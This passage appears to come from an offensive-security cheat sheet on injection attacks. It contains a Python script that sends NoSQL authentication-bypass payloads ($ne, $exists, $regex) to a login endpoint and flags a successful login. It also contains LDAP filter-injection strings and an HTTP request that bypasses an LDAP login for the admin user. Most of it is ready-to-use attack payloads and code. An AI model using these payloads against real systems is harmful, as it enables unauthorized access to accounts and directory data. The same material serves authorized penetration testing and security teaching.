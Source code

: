 ### **NoSQL Injection Automation:**
```python
import requests
import json

def nosql_injection_test(login_url):
    # Test various NoSQL payloads
    payloads = [
        # Authentication bypass
        {"username": "admin", "password": {"$ne": ""}},
        {"username": {"$ne": ""}, "password": {"$ne": ""}},
        {"username": "admin", "password": {"$exists": True}},
        
        # Regex extraction
        {"username": {"$regex": ".*"}, "password": {"$regex": ".*"}},
        
        # Boolean-based blind
        {"username": "admin", "password": {"$eq": "realpassword"}}
    ]
    
    for payload in payloads:
        headers = {'Content-Type': 'application/json'}
        response = requests.post(login_url, json=payload, headers=headers)
        
        if "Welcome" in response.text or "Dashboard" in response.text:
            print(f"[!] NoSQL Injection Successful: {payload}")
            return True
    
    return False
```

---

## **LDAP INJECTION - DIRECTORY SERVICES PWNAGE** 📁🔍

### **LDAP Filter Injection:**
```ldap
# Normal filter
(&(username=john)(password=test))

# Injected - always true
(&(username=john)(password=*))

# Comment out rest of filter
(&(username=*))(uid=*))(|(uid=*
```

### **Exploitation Examples:**
```http
POST /ldap_login HTTP/1.1
username=admin)(&))&password=anything

# Becomes: (&(username=admin)(&))(password=anything))
# Which evaluates to TRUE for admin user
```

---